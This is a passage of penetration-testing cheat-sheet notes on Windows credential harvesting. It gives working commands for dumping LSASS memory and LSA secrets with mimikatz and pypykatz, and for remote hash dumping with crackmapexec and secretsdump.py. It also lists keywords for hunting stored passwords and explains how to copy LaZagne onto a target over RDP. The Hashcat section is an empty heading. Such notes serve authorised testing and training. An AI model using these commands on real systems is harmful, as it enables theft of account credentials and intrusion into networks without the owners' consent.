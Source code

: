 ```bash
$ pypykatz lsa minidump /home/peter/Documents/lsass.dmp`
```

### Mimikatz
```bash
mimikatz > privilege::debug
mimikatz > token::elevate

#Dump LSASS:
mimikatz > sekurlsa::logonpasswords

#Dump and save LSASS in a file
mimikatz > sekurlsa::minidump c:\temp\lsass.dmp

# Dump LSA
mimikatz > lsadump::secrets
```

### Dumping Hashes Remote
```bash
$ crackmapexec smb <IP/RANGE> --local-auth -u <USERNAME> -p <PASSWORD> --lsa
$ crackmapexec smb <IP/RANGE> -u <USERNAME> -p <PASSWORD> --lsa
$ secretsdump.py <DOMAIN>/<USER>:<PASSWORD>@<IP> 
```

### Cracking the NT Hash with Hashcat


# Credential Harvesting
## Key Terms to Search

Passwords 	Passphrases 	Keys
Username 	User account 	Creds
Users 	Passkeys 	Passphrases
configuration 	dbcredential 	dbpassword
pwd 	Login 	Credentials

## Search Tools
With access to the GUI, it is worth attempting to use Windows Search to find files on the target using some of the keywords mentioned above.

By default, it will search various OS settings and the file system for files & applications containing the key term entered in the search bar.


### Running Lazagne All
We can also take advantage of third-party tools like [Lazagne](https://github.com/AlessandroZ/LaZagne) to quickly discover credentials that web browsers or other installed applications may insecurely store. It would be beneficial to keep a standalone copy of Lazagne on our attack host so we can quickly transfer it over to the target. Lazagne.exe will do just fine for us in this scenario. We can use our RDP client to copy the file over to the target from our attack host. If we are using xfreerdp all we must do is copy and paste into the RDP session we have established.

